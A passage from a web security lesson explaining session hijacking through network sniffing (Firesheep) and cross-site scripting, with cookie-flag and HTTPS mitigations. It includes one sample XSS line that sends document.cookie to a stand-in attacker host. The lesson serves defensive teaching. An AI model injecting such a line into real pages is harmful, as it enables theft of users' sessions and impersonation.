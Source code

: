 ```javascript
  res.redirect('/login');
});
```

## Session Hijacking Attacks

Session hijacking occurs when an attacker obtains a user's session ID and uses it to impersonate them. There are several ways this can happen:

### Network-Based Attacks

When HTTP traffic is unencrypted, attackers on the same network can intercept cookies. The infamous [Firesheep Firefox extension (2010)](https://en.wikipedia.org/wiki/Firesheep) demonstrated this by making it trivially easy to hijack Facebook and Twitter sessions over public WiFi. The extension would:

1. Monitor network traffic for unencrypted requests to popular websites
2. Extract session cookies from these requests
3. Present a list of hijackable sessions to the attacker
4. Allow one-click impersonation of users

This attack was particularly effective because many sites only encrypted their login pages, leaving subsequent requests unprotected, despite those requests including session cookies.

Mitigation:

1. Use HTTPS everywhere to prevent eavesdropping
2. Set the `Secure` flag on cookies to prevent them from being sent over HTTP:
   ```javascript
   res.cookie('sessionId', sessionId, { secure: true });
   ```

### Cross-Site Scripting (XSS)

Cookies are sent as request headers in every HTTP request. However, they are _also_ readable by client-side JavaScript. There are legitimate use cases for this, e.g. saving a `theme` cookie for light/dark mode, if JavaScript is involved with rendering the site.

However, if an attacker can inject JavaScript into your site, they can steal cookies:

```javascript
// Attacker's injected code
fetch('https://evil.com/steal?cookie=' + document.cookie);
```

We will discuss this type of attack in detail in Lesson 7.

Mitigation:

1. Set the `HttpOnly` flag on session cookies to make them inaccessible to client JavaScript:
   ```javascript
   res.cookie('sessionId', sessionId, { httpOnly: true });
   ```
2. Implement proper XSS protections (covered in Lesson 7)

## Historical Context
